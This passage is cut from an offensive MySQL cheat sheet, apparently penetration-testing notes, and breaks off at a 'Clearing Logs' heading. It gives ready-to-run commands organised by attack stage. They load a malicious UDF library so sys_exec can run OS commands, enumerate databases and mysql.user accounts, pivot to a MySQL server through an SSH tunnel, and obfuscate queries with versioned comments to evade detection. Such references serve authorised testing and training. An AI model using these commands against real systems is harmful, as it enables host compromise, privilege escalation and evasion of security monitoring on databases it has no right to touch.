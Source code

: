 *   **Tool:** \[\[MySQL]]

    ```sql
    CREATE FUNCTION sys_exec RETURNS int SONAME 'lib_mysqludf_sys.so'; SELECT sys_exec('id');
    ```
* **Description:** Loading malicious shared libraries to execute commands on the host system. Allows execution of OS-level commands.

### Internal Reconnaissance

#### Database Enumeration

*   **Tool:** \[\[MySQL]]

    ```sql
    SHOW DATABASES;
    SELECT table_name FROM information_schema.tables;
    ```
* **Description:** Enumerates databases, tables, and columns to map out the database structure.

#### User Enumeration

*   **Tool:** \[\[MySQL]]

    ```sql
    SELECT user, host FROM mysql.user;
    ```
* **Description:** Lists all users and their respective hosts, identifying potential targets for privilege escalation.

### Lateral Movement, Pivoting, and Tunneling

#### Pivoting via MySQL

*   **Tool:** \[\[SSH]]

    ```bash
    ssh -L 3307:<target_ip>:3306 user@pivot_host
    mysql -h 127.0.0.1 -P 3307 -u root -p
    ```
* **Description:** Creates an SSH tunnel to pivot through a compromised host and access MySQL on a different network segment.

### Defense Evasion

#### Obfuscating Queries

*   **Tool:** \[\[MySQL]]

    ```sql
    SELECT /*!50000 * */ FROM /*!50000 users */;
    ```
* **Description:** Obfuscates SQL queries to bypass detection by security monitoring tools.

#### Clearing Logs
